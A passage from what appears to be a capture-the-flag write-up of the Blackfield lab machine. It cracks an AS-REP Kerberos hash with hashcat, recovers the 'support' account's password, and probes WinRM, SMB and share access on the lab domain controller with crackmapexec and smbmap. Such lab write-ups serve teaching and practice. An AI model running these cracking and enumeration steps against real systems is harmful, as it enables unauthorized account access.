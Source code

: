 
### Crack Hash

After saving the hash to a file, I’ll send it to Hashcat for cracking. Using
the basic `rockyou.txt` word list, it breaks fairly quickly:

    
    
    root@kali# hashcat -m 18200 svc.asrep.hash /usr/share/wordlists/rockyou.txt --force
    hashcat (v5.1.0) starting...
    ...[snip]...
    $krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0:#00^BlackKnight
    ...[snip]...
    

Creds: support / #00^BlackKnight

### Access Check

With these creds, I’ll see what kind of access I just acquired.
Unsurprisingly, support does not have WinRM access:

    
    
    root@kali# crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
    WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
    WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"
    

These creds do work for SMB:

    
    
    root@kali# crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
    SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
    

It looks like I’ve gained READ ONLY access to the `NETLOGON` and `SYSVOL`
shares:

    
    
    root@kali# smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
    [+] IP: 10.10.10.192:445        Name: unknown                                           
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            forensic                                                NO ACCESS       Forensic / Audit share.
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            profiles$                                               READ ONLY
            SYSVOL                                                  READ ONLY       Logon server share
    